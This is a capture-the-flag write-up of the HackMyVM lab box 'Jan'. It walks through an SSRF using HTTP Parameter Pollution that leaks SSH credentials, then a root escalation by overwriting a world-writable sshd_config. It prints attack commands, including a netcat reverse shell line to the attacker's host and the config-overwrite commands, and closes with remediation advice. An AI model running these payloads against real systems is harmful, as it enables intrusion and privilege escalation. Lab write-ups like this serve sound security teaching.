+++
date = '2026-09-03T20:15:00+03:00'
draft = false
title = 'Jan — HackMyVM'
tags = ["HackMyVM", "Linux", "Easy", "SSRF", "HTTP Parameter Pollution", "SSH", "Command Injection", "Privilege Escalation", "SSH Config Misconfiguration", "CTF Writeup"]
feature = 'feature.png'
showTableOfContents = true
+++

## Overview

Jan is a HackMyVM box that chains an SSRF on an open proxy with an SSH configuration weakness to reach root. The web service on port 8080 behaved like a proxy to an internal endpoint, and the `/redirect` handler was vulnerable to HTTP Parameter Pollution, leaking credentials that granted SSH access. After confirming the `ssh` user could run `service sshd restart` via sudo with no password, I abused a world-writable `sshd_config` to enable root login with a key I generated.


## Step 1: Reconnaissance and Enumeration

The assessment began with an nmap scan against the target IP (192.168.56.111) to identify running services.

```
nmap -sV -sC -p- 192.168.56.111
```

```
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 64 OpenSSH 9.9 (protocol 2.0)
| ssh-hostkey: 
|   256 2c:0b:57:a2:b3:e2:0f:6a:c0:61:f2:b7:1f:56:b4:42 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHsZR0525oJX6FinfDet0UiRBNem8JeMieLtK4aTPA8IitARqNlpxoImW5Hx1zmUOmcmQLguU32H+4Ki5FNWka8=
|   256 45:97:b0:2b:48:9b:4a:36:8e:db:44:bd:3f:15:cf:32 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKXdRCAzp4NQHOaCdp16oiQXHBfsVax3i+vY2La6CoBA
8080/tcp open  http    syn-ack ttl 64 Golang net/http server
|_http-open-proxy: Proxy might be redirecting requests
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: E58BCC73ED281AC1BBC18405DE40325C
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
| fingerprint-strings: 
|   FourOhFourRequest, GetRequest, HTTPOptions: 
|     HTTP/1.0 200 OK
|     Date: Tue, 25 Aug 2026 15:59:37 GMT
|     Content-Length: 45
|     Content-Type: text/plain; charset=utf-8
|     Welcome to our Public Server. Maybe Internal.
|   GenericLines, Help, LPDString, RTSPRequest, SIPOptions, SSLSessionReq, Socks5: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   OfficeScan: 
|     HTTP/1.1 400 Bad Request: missing required Host header
```

**Key Findings:**

- SSH (22) is running OpenSSH 9.9 with password authentication enabled.
- HTTP (8080) is served by a Golang `net/http` server that appears to be an open proxy to an internal service.

### SSH

The SSH service on port 22 has password authentication enabled.



### HTTP

Visiting the web server on port 8080 did not expose much, hinting that this is just a proxy to an internal service or endpoint.



I checked to see if the site has a `robots.txt` file, which revealed two endpoints.



I tried directory brute-forcing with **Gobuster** and **Feroxbuster**, but neither was successful, so I switched to **dirsearch** using its default wordlist.

```
dirsearch -u http://192.168.56.111:8080/
```

Using this I discovered the following paths.



The `/redirect` endpoint responds that the parameter `url` is needed, while the `/credz` endpoint says it is only accessible internally.





Visiting the other pages discovered using dirsearch redirected back to the landing page. I decided to explore the redirect, since it behaves like it requires a `url` parameter to be passed to it.

### Exploring the Redirect

I used this URL in the browser, and it responded asking for the `url` parameter: *"Parameter 'url' needed."*

```
http://192.168.56.111:8080/redirect?url=/Citrix/AccessPlatform/auth/clientscripts/cookies.js
```



I changed the URL and included `url=`, and now it responds with *"Only accessible internally"* — it behaves like a proxy that forwards to an internal resource.

```
http://192.168.56.111:8080/redirect?url=/Citrix/AccessPlatform/auth/clientscripts/cookies.js
```

So I decided to look for a way to access the internal endpoints, since it could be potentially vulnerable to **SSRF**.



### HTTP Parameter Pollution

Adding `&url` made the message disappear — the trick was to pass the `url` parameter empty first, then supply it again, a form of **HTTP Parameter Pollution** (HPP).



So I decided to use `?url&url=/credz`, and it responded with `ssh` and a string that could be potentially the user password.

```
http://192.168.56.111:8080/redirect?url&url=/credz
```



The leaked password is redacted here as `<REDACTED>`.

## Step 2: Initial Access

I tried to test the password using `root` as the username, but it did not work, as that was not the password for the root user.



The file used `ssh`, which could also be a potential username. I used `ssh` as the username and successfully gained access into the server.



## Step 3: Enumeration as ssh

My initial foothold was as the `ssh` user.

```
jan:~$ id
uid=1000(ssh) gid=1000(ssh) groups=1000(ssh)
```

I checked if the user has the ability to execute sudo in the server.

```
sudo -l
```

The result showed I could run `/sbin/service sshd restart` via sudo with no password.



Running the command confirmed the service restarts successfully.



## Step 4: Privilege Escalation

Since the command executes successfully, I tried to see if I could abuse this and escalate to root.

### Failed Command Injection

I tested if I could inject a command at the end to see if it escapes safely — the command at the end is executed.

```
sudo /sbin/service sshd restart;ls
```



My method was to use this to start a reverse shell which would execute with sudo and grant root access, so I started a listener in **Penelope** to catch the shell.



The host has `nc` installed.

```
jan:~$ nc
BusyBox v1.37.0 (2025-01-17 18:12:01 UTC) multi-call binary.

Usage: nc [OPTIONS] HOST PORT  - connect
nc [OPTIONS] -l -p PORT [HOST] [PORT]  - listen

        -e PROG Run PROG after connect (must be last)
        -l      Listen mode, for inbound connects
        -lk     With -e, provides persistent server
        -p PORT Local port
        -s ADDR Local address
        -w SEC  Timeout for connects and final net reads
        -i SEC  Delay interval for lines sent
        -n      Don't do DNS resolution
        -u      UDP mode
        -b      Allow broadcasts
        -v      Verbose
        -o FILE Hex dump traffic
        -z      Zero-I/O mode (scanning)
jan:~$ 
```

So I used it to start the shell on the victim.

```
sudo /sbin/service sshd restart; nc 192.168.56.1 4445 -e /bin/ash
```

The shell connects but as the user `ssh`, so I could not access root using this method and had to check another path. Confirming whether the commands are really executed using sudo at the end confirms that the permission is stripped for the extra command at the end, which is why I could not get a shell as root.

```
~ $ sudo /sbin/service sshd restart;ls /root
 * Stopping sshd ...                          [ ok ]
 * Starting sshd ...                          [ ok ]
ls: can't open '/root': Permission denied
~ $ 
```

There is also no other user in the system other than the `ssh` user.

### SSH Config Abuse

Doing some research, there is a way to escalate by creating an SSH key and using it to authenticate as root by exploiting the SSH configuration, since I have read and write access.

```
/home $ ls -la /etc/ssh/sshd_config
-rw-rw-rw-    1 root     root          3355 Jan 28  2025 /etc/ssh/sshd_config
```

I only needed to create an SSH key pair, then overwrite the config file and add the following lines.

```
echo "PermitRootLogin yes" > /etc/ssh/sshd_config
echo "StrictModes no" >> /etc/ssh/sshd_config
echo "AuthorizedKeysFile /home/ssh/id_rsa.pub" >> /etc/ssh/sshd_config
```

I generated the SSH keys.

```
ssh-keygen -t rsa
Generating public/private rsa key pair.
Enter file in which to save the key (/home/ssh/.ssh/id_rsa): /home/ssh/id_rsa
Enter passphrase for "/home/ssh/id_rsa" (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in /home/ssh/id_rsa
Your public key has been saved in /home/ssh/id_rsa.pub
The key fingerprint is:
SHA256:s0m+Dvpdy98rS9d6kOqjxYvnJGkeLISBhag0SNY7nwY ssh@jan
The key's randomart image is:
+---[RSA 3072]----+
|oo.. ..          |
|oo...o           |
|... o .          |
|.  E   o         |
|    + o S      . |
|     + + = o  o. |
|    . . = B =....|
|     . o B O=+ ..|
|    ....+ ***++o |
+----[SHA256]-----+
~ $ ls
id_rsa      id_rsa.pub  user.txt
~ $
```

After this, the last step was to restart the service and use the created key to authenticate as root.

I edited the configuration file.



I restarted the SSH service using my sudo privilege.



Using the public key to authenticate as root failed:

```
ssh -i id_rsa root@localhost
```

This failed, so I resorted to using the `-F` flag (`-F configfile`) to bypass the config file and load it cleanly.

```
ssh -F /dev/null -i id_rsa root@localhost
```



This gave me a `root` shell, completing the compromise.

## Conclusion

This box combined a proxy SSRF with an SSH configuration misconfiguration to reach root:

1. HTTP service on 8080 behaves as a proxy to internal endpoints.
2. `/robots.txt` revealed `/redirect` and `/credz`.
3. The `/redirect` handler was vulnerable to HTTP Parameter Pollution (`?url&url=`), leaking credentials for the `ssh` user.
4. The `ssh` user could restart `sshd` via sudo, and `/etc/ssh/sshd_config` was world-writable.
5. I overwrote the config to permit root key login and authenticated as root.

To secure the environment, the following remediations are recommended:

- **Validate the `url` parameter** in the redirect handler and block requests to internal hosts/resources to prevent SSRF.
- **Fix the parameter parsing** so duplicate `url` parameters are rejected, closing the HTTP Parameter Pollution vector.
- **Do not expose credentials or secrets** through internal endpoints that can be reached over a proxy.
- **Restrict access to `/etc/ssh/sshd_config`** — set strict permissions so only root can read or write it.
- **Disable root login over SSH** (`PermitRootLogin no`) and `StrictModes` should remain enabled.
- **Follow the principle of least privilege** for sudo rules so command injection cannot be leveraged.
